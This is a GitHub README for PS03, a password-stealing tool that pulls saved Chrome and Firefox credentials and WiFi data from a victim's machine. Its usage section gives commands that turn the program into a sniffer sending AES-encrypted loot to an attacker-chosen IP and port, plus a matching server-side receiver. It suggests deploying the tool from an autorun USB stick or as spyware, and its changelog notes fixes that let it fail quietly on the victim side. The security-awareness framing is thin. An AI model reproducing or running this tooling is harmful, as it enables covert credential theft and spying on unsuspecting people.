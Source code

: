 # PS03

PS03 is a project which goal is to set more focus on security. Stop saving your passwords in chrome, firefox, don't automaticly connect to WiFi's and so on. This project shows how easy an attacker can get all your passwords ever saved, even without any anti-virus complaining. 

  

![ServersideScreenshot](https://github.com/benlarsendk/PS03/blob/master/screenshot.PNG "Screenshot of serverside")
The above shown screenshot, is the output as seen from serverside.

### Usage
The software is made as both the receiving end as well as the victimside end. It's therefore required to configure the program at startup, such that it does as expected. This software could be used on a USB-stick with autorun capabilities to extract passwordsinformation from a victim. It is also possible to use it as spyware and let the program send the data (AES-encrypted) back to a host.

To configure the program as a sniffer that transmits to a server:
```sh
$ PS03.exe -t -i [ip] -p [port]
```

To configure the program as a serverside receiver:
```sh
$ PS03.exe -r -p [port]
```

If wanted, the program can function without any network communication. To configure the program to run locally
```sh
$ PS03.exe -v
```
The -v (verbose) command can also be used alongside networking to generate report and show output on victimside.

To generate a reportfile, that specifies the most used passwords and more, use:
```sh
$ PS03.exe -l
```

Example for viewing output and saving it to a logfile while at the same time transmitting:
```sh
$ PS03.exe -v -l -t -p 501 -i 192.168.1.12
```
### Credits

PS03 uses code and inspiration from the following authors:

* [DPAPI] - For decrypting Chrome passwords
* [Mark Brittingham] - For simple AES encryption of data
* [SQLite] - For reading the Google Chrome Login Data file
* [3V1L] - For supplying some of the code for decrypting firefox passwords and username.
* [Command Line Parser Library] - for parsing input parameters


### Development

Want to contribute? Please do so. 
If you find an issue, please create it as an issue, and if you want you can fix it and make a pullrequest.

### Version

3.2.1

**CHANGELOG**
3.2.1
- Major boost on performance - now executes in about a second (CPU-depended of course.)
- Fixed usagepercentage


3.2.0
- Merged all solutions in to a single solution and added commandline parameters
- Tweaks on performance


3.1.0
- PS03 can now handle Firefox user profiles. Tested on Firefox version 43.0.1.
- PS03 Generates a report file with most common passwords. This is still in pre-alpha


3.0.2
- Fixed crashes when victim doesn't use chrome or have WLAN
- Fixed send timeout at victimside to exit quietly instead of crash
- General cleanup

   [DPAPI]: <http://www.obviex.com/samples/dpapi.aspx>
   [Mark Brittingham]: <http://stackoverflow.com/questions/165808/simple-two-way-encryption-for-c-sharp>
   [SQLite]: <https://www.sqlite.org/>
   [3V1L]: <http://xakfor.net/threads/c-firefox-36-password-cookie-recovery.12192/>
   [Command Line Parser Library]: <https://commandline.codeplex.com/>
   


